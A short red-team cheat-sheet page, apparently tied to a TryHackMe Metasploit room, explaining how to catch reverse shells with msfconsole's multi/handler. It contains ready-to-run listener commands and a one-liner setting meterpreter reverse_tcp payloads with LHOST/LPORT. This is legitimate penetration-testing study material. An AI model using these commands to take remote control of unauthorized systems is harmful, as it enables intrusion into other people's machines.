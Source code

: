 # msfhandler

[![metasploitexploitation](../../../../../_badges/thmp/metasploitexploitation.svg)](https://tryhackme.com/room/metasploitexploitation)

<div class="row row-cols-lg-2"><div>

The msfconsole can be used to catch reverse shells. Some reverse shell may be upgradable to a [meterpreter](../index.md#meterpreter), which is the main goal.

* First, load the exploit, and define LHOST/LPORT 

```shell!
$ msfconsole -q
msf6> use multi/handler
msf6> setg LHOST tun0
msf6> setg LPORT 4444
```

* Select the payload that would be appropriate

```shell!
msf6> # warning, payload must match your msfvenom payload
msf6> set PAYLOAD php/meterpreter/reverse_tcp
msf6> grep meterpreter show payloads
msf6> grep reverse_tcp grep Linux show payloads
```
</div><div>

* Run the catcher, and wait for incoming connections.

```shell!
msf6> run         # Wait for clients
meterpreter> help # See what you can do
```

➡️ One line command: `msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost tun0; set lport 4444; exploit"`

➡️ Your shell may not be a meterpreter, so you may try to [upgrade it](../index.md#meterpreter).

📚 Refer to [msfvenom](/cybersecurity/red-team/tools/frameworks/metasploit/msfvenom.md) to generate payloads.
</div></div>
